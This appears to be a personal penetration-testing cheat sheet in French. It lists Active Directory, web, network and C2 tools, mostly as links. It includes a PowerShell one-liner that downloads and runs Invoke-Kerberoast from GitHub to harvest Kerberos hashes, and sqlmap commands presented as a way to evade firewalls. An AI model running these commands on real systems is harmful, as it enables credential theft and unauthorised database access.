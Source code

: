# mycheatsheet

## AD

* linWinPwn super outil pour automatiser les attaques sur l'AD : https://github.com/lefayjey/linWinPwn
* https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/kerberoasting
### Windows 

	IEX(IWR https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Kerberoast.ps1);Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
 
* Il marche très bien et sort un fichier hashes.kerberoast
* https://exploit-notes.hdks.org/exploit/windows/active-directory/kerberos-pentesting/
* https://github.com/blackc03r/OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting.md
 
### bloodhound delete data
```
MATCH (n) OPTIONAL MATCH (n)-[r]-() DELETE n,r
```
## Pentest Web
* whatweb
* gobuster
* Bypass firewall
	* sqlmap -u "http://..room.php?code=3" --dbs --random-agent --delay 1
* possible de passer à delay 10 pour mieux bypass mais plus long
* --dump -D information-schema --delay 5

## Kubernetes
* Hubble: Pour inspecter service et réseau sur K8S https://github.com/cilium/hubble

## C2C
* Vilain c'est un peu comme meterpreter mais un peu mieux fait : https://github.com/t3l3machus/Villain

# Network
* Legion: https://github.com/GoVanguard/legion
## Pentest plateforme
* Rekono : https://github.com/pablosnt/rekono?search=1
* Sniper: https://github.com/1N3/Sn1per

## BEEF XSS

https://www.golinuxcloud.com/beef-hacking-framework-tutorial/

https://programmingdigest.com/python-simple-http-server-a-quick-and-easy-way-to-serve-web-content/

